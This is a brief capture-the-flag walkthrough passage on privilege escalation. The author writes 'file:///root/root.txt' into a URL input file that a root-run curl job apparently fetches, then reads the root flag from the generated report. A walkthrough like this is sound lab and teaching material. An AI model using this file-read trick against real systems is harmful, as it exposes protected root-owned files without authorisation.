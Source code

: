 # Escalation

In `/home/floris/admin-area`, we can find 2 files. First seems to be an url and the `report` seems to be the result of the curl command.
Let's try a `LFI` to read root flag on the box.

```bash
$ cat input 
url = "file:///root/root.txt"
$ cat report 
82c198ab6fc5365fdc6da2ee5c26064a
```

We get the flag !